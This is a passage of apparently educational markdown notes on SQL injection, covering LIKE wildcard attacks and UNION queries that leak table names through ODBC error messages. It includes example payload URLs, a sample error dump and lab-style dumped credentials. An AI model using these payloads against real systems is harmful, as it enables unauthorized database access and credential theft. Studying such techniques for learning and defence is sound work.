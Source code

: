 The results from the query will let you read all of the usernames and passwords, for example:

```bash
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```


---



### SQL injection - `LIKE` attacks

The use of `LIKE` clause, another method of SQL injection

Example:

- inserting <font color=OrangeRed> wildcard </font> characters (`like %`),
  - <font color=OrangeRed> LIKE ' % "&strPartNameInclude&" % ' </font>
  - Then, the `WHERE` clause `= TRUE` when the argument `strPartNameInclude` is included as part of a part name:
  - Then, all parts names include the string `PartName` will be returned.
  ```sql
  SELECT PartCost, PartName FROM PartsList
  WHERE PartName LIKE ' % " & strPartNameInclude & " % ';
  ```

- employ the wildcard symbol to guess the admin username:
  - querying with `ad%`.

---

### SQL injection - `UNION` and `LIKE` attacks

Incorporating the `UNION` and `LIKE` statements is to use the **ODBC error message** to gather information from the database.

Example 1:
- the page `https://page/index.asp?id=20`.
- use the `UNION` statement to set up a query as follows:
  ```sql
  https://page/index.asp?id=20 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES --
  ```
- This string attempts to `UNION` the integer `20` with another string from the database.
  - `INFORMATION_SCHEMA.TABLES`: hold data on all the tables in the server database
  - `TABLE_NAME field`: holds name of each table in the database.
  - `SELECT`: provide the name of the ﬁrst table in the database
  - `UNION`: result in the SQL server attempting to convert a character string to integer.

- This conversion will fail, error message will be return and provides the information:
  - the string could not be converted to an integer
  - provides the name of the first table in the database, namely `employeetable`.

  ```bash
  Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
  [Microsoft] [ODBC SQL Server Driver] [SQL Server]Syntax error converting the nvarchar value 'employeetable' to a column of data type int.
  /index.asp, line 6
  ```
